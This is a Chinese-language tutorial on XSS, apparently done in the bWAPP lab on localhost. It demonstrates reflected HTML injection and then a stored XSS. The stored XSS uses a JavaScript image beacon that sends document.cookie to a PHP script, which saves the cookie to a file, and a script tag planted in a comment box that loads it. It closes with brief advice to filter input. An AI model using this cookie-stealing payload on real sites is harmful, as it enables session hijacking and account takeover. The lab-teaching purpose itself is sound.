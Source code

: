 ### 常见xss漏洞及其简单利用
<br>利用一个简单的表单生成临时的链接

![一个普通的表单](../pic/HTMLInject.png)

该表单由于没有对用户的输入进行过滤，会原封不动的将用户输入的账号密码反馈回来，因此我们可以构造一个恶意的链接，欺骗用户去点击。
<br>这里进行简单测试，将某一个名字写成指向百度的HTML元素。
```html
<a href="http://www.baidu.com">ClickHere</a>
```
![名字变成链接](../pic/2.png)
<br>成功进入百度首页<br>
![百度](../pic/3.png)

<br>在留言框等地永久执行恶意脚本
<br>这次玩个高级点的，获取用户的cookie。先写一个JavaScript和PHP脚本。
![留言框](pic/blog.png)

```javascript
var img = new Image();
img.src = "http://localhost/bWAPP/hack.php?q="+document.cookie;
document.body.append(img);
<!--document.cookie可以用于获取用户的cookie-->
```

```php
<?php 
$cookie = $_GET['q'];
var_dump($cookie);
$myFile = "cookie.txt"; 
file_put_contents($myFile, $cookie); 
?> 
```
<br>我们先把这两个文件放在合适的地方，本地测试的话可以考虑放在web根目录。构造一对script标签使js脚本可以被执行，进而PHP脚本也会被执行。
<br>我们构造一对标签，为了显示内容，可以随便写点其他东西。
```html
<script src="http://localhost/bWAPP/hack.js">
<!--只要该页面被访问，cookie就会被拿下，然后就可以干好多事了-->
</script>
hahah
```
![脚本加进去了](../pic/4.png)
刷新一下发现cookie.txt文件里，出现了cookie的字符串。
![拿到cookie](../pic/5.png)

<br>如何防止这些恶意行为呢，这里先提一个最简单的方法，那就是过滤字符串，将一些敏感字符过滤掉可以防止大多数xss攻击。
